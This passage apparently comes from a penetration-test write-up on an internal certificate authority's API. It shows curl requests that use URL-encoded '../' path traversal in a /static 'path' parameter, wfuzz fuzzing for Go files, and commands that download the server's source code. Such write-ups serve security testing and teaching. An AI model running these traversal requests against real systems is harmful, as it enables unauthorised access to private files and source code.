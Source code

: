 This appears to be an OpenAPI specification manifest; a standard for describing REST APIs. The CA likely uses this manifest to aid developers in integrating with their service. The manifest defines the API endpoints and parameters available to interact with the CA.

The `/static` endpoint contains the optional query parameter `path` that describes the static asset that the user wants to retrieved. Providing a test string returns a 500 error code and a rich error message indicating that the file cannot be found.

```bash
pwn:~$ curl -i https://ca.internal/static?path=test
HTTP/1.1 500 Internal Server Error
Server: digishue-go
Date: Tue, 08 Nov 2022 03:45:06 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 43

open static/test: no such file or directory
```

The server appears to substitute the path value into a filename. Modifying our query value with a URL encoded representation of `../`  path traversal causes a far more interesting error:

```bash
pwn:~$ curl -i https://ca.internal/static?path=..%2f
HTTP/1.1 500 Internal Server Error
Server: digishue-go
Date: Tue, 08 Nov 2022 03:45:31 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 31

read static/../: is a directory
```

Instead of failing to access a nonexistent file, path traversal resets the path one parent level above `static`, therefore instructing the server to read a directory as a file. This throws a `is a directory` error, indicating the server may be vulnerable to path traversal.

### CA Vulnerability 1: Local file inclusion via directory traversal in /static path parameter [V-CA-01]

Combining our prior knowledge that the server may be running Go with a path traversal exploit, we continue API enumeration by fuzzing for Go source code files. We invoke `wfuzz` and supply the `--hc 500` flag to ignore server error 500s.

```bash
pwn:~$ wfuzz -w directory-list-2.3-small.txt --hc 500 https://ca.internal/static?path=../FUZZ.go
ID           Response   Lines    Word     Chars       Payload                       
000000077:   200        167 L    421 W    3720 Ch     "main"
000000624:   200        123 L    351 W    2955 Ch     "crypto"
000004213:   200        67 L     186 W    1385 Ch     "challenge"
```

We have 3 valid HTTP 200 OK responses, so we manually substitute the filenames to download each file:

```bash
curl -so main.go http://10.64.10.3:8080/static?path=../main.go
curl -so crypto.go http://10.64.10.3:8080/static?path=../crypto.go
curl -so challenge.go http://10.64.10.3:8080/static?path=../challenge.go
```
